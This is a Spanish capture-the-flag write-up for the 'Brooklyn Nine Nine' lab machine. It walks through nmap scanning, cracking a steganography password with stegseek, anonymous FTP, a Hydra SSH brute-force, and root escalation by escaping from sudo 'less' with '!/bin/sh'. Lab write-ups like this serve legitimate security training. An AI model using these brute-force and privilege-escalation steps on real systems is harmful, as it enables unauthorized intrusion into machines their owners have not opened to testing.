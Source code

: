 ```yaml
---
description: '✍️ Autor: Fsociety2006 🔍 Dificultad: Fácil'
---
```


# Brooklyn Nine Nine

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.255.194
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.255.194
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **21** perteneciendo al servicio **FTP**, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 10.10.255.194
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre la serie **Brooklyn Nine Nine**. Nos indica que hay redimensionarlo para verlo completamente la imagen.&#x20;

<figure><img src="../../.gitbook/assets/image (436).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>

Nos menciona sobre la técnica de estenografía por lo que descargamos la imagen para aplicar esas técnicas a la imagen para ver si hay información oculta.

```bash
wget http://10.10.255.194/brooklyn99.jpg
```

<figure><img src="../../.gitbook/assets/image (438).png" alt=""><figcaption></figcaption></figure>

Ahora que tenemos la imagen, podemos verificar si hay un archivo incrustado en la imagen utilizando el siguiente comando:

```bash
steghide info brooklyn99.jpg
```

<figure><img src="../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

Se nos muestra que hay un archivo incrustado en la imagen y que está protegido con una contraseña. Sabiendo esto, utilizamos la herramienta **Stegseek** para intentar descifrar la contraseña utilizando la lista de contraseñas comúnmente usada, `rockyou.txt`. El comando sería el siguiente:

```bash
stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (440).png" alt=""><figcaption></figcaption></figure>

Logramos descubrir la contraseña y acceder a los datos ocultos, como se muestra a continuación. Parece tratarse de credenciales del usuario **Holt**.

<figure><img src="../../.gitbook/assets/image (441).png" alt=""><figcaption></figcaption></figure>

Primero intenté iniciar sesión por **SSH** utilizando las credenciales. Así, conseguimos nuestra primera **flag**.

<figure><img src="../../.gitbook/assets/image (442).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (443).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos encontrado la bandera de usuario, ¡necesitamos obtener acceso **root**!

Después de iniciar sesión como **Holt** a través de **SSH**, exploramos los directorios en busca de algo útil. Desafortunadamente, no encontramos nada. Dado que ya hemos explorado el servidor web y el acceso por **SSH**, nuestro siguiente paso es verificar si podemos hacer algo con **FTP**. Esto implica comprobar si tiene habilitado el acceso anónimo.

Utilizamos el siguiente comando para ello:

```bash
ftp anonymous@10.10.255.194
```

Listamos el contenido del servidor y vemos que hay un archivo de texto llamado `note_to_jake.txt`. Procedemos a descargarlo a nuestra máquina.

<figure><img src="../../.gitbook/assets/image (444).png" alt=""><figcaption></figcaption></figure>

Al leer el archivo de texto, encontramos nuestra siguiente gran pista: el usuario **jake** tiene una contraseña débil.

<figure><img src="../../.gitbook/assets/image (445).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l jake-P /usr/share/wordlists/rockyou.txt ssh://10.10.255.194 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **10.10.255.194**.&#x20;

<figure><img src="../../.gitbook/assets/image (446).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la **contraseña** de ese usuario. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh jake@10.10.255.194
```

<figure><img src="../../.gitbook/assets/image (447).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (448).png" alt=""><figcaption></figcaption></figure>

Esto muestra que `jake` puede ejecutar el binario `less` con privilegios de sudo. Para ver cómo podemos explotar esto, consultamos [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo), que nos proporciona nuestro **exploit**.

Ejecutamos el siguiente comando:

```bash
sudo less /etc/profile
```

Luego, escribimos `!/bin/sh` para abrir una **shell** con privilegios elevados.

<figure><img src="../../.gitbook/assets/image (449).png" alt=""><figcaption></figcaption></figure>

De inmediato, el símbolo del prompt cambia de `$` a `#`, lo que indica que hemos escalado exitosamente nuestros privilegios a root. Luego, navegamos a `/root` y encontramos nuestra última bandera.

<figure><img src="../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>
